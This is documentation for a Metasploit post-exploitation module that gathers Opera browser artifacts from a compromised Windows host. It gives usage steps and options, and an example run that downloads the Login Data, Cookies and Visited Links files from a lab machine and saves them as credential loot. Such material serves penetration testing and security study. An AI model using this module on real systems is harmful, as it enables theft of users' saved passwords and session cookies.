 ## Module Description

This post-exploitation module gathers artifacts found on Opera related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/opera
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifcats/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by defalt and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
### Default Output
  ```
msf6 post(windows/gather/credentials/opera) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Opera's parent folder found
[*] Opera's Login data file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\Opera Software\Opera Stable\Login Data
[*] Opera Login data downloaded
[+] File saved to:  /root/.msf4/loot/20210513121928_default_192.168.56.106_operaLoginData_680711.bin

[+] File with credentials saved:  /root/.msf4/loot/20210513121928_default_192.168.56.106_EXTRACTIONSLogin_648131.bin
[*] Opera's parent folder found
[*] Opera's Cookies file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\Opera Software\Opera Stable\Cookies
[*] Opera Cookies downloaded
[+] File saved to:  /root/.msf4/loot/20210513121929_default_192.168.56.106_operaCookies_000286.bin

[+] File with credentials saved:  /root/.msf4/loot/20210513121929_default_192.168.56.106_EXTRACTIONSCooki_563880.bin
[*] Opera's parent folder found
[*] Opera's Visited links file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\Opera Software\Opera Stable\Visited Links
[*] Opera Visited links downloaded
[+] File saved to:  /root/.msf4/loot/20210513121929_default_192.168.56.106_operaVisitedLin_749388.bin

[*] PackRat credential sweep Completed
[*] Post module execution completed

  ```